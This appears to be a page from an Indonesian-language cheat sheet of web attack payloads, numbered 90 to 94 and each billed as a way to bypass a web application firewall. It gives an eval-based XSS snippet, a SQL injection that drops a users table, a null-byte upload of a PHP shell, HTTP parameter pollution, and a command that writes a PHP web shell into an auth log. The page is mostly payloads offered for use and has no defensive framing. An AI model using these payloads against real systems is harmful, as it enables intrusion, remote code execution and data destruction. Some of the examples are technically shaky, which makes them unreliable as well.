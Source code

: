 ```

```md
---

### **🛡️ 90. XSS via Mutation Observer**  
```js
let observer = new MutationObserver((m) => eval(m[0].addedNodes[0].data));
document.body.appendChild(document.createElement("script")).innerHTML = "alert('Hacked')";
```
**📌 Teknik:**  
✅ **Mutation Observer** = Mengeksekusi JavaScript saat elemen DOM berubah.  
✅ **Bypass WAF** karena payload tidak langsung muncul dalam HTML awal.  

---

### **🛡️ 91. Advanced SQL Injection via Batched Queries**  
```sql
SELECT * FROM users WHERE id=1; DROP TABLE users; --
```
**📌 Teknik:**  
✅ **Batched Queries** = Menjalankan lebih dari satu query dalam satu perintah SQL.  
✅ **Bypass WAF** karena banyak filter hanya memeriksa satu query per input.  

---

### **🛡️ 92. File Upload Bypass using Double Extension**  
```php
shell.php%00.jpg
```
**📌 Teknik:**  
✅ **Double Extension** = Mengelabui sistem agar menerima file PHP sebagai gambar.  
✅ **Bypass WAF** karena beberapa filter hanya memeriksa ekstensi akhir `.jpg`.  

---

### **🛡️ 93. HTTP Parameter Pollution (HPP) Attack**  
```http
GET /index.php?user=admin&user=hacker
```
**📌 Teknik:**  
✅ **HPP Attack** = Mengirim parameter yang sama dua kali untuk membingungkan backend.  
✅ **Bypass WAF** karena filter hanya membaca satu parameter.  

---

### **🛡️ 94. Remote Code Execution (RCE) via Log Injection**  
```bash
echo '<?php system($_GET["cmd"]); ?>' >> /var/log/auth.log
```
**📌 Teknik:**  
✅ **Log Injection** = Memasukkan kode ke dalam log yang nanti akan dieksekusi oleh PHP.  
✅ **Bypass WAF** karena payload hanya tersimpan di log awalnya.  

---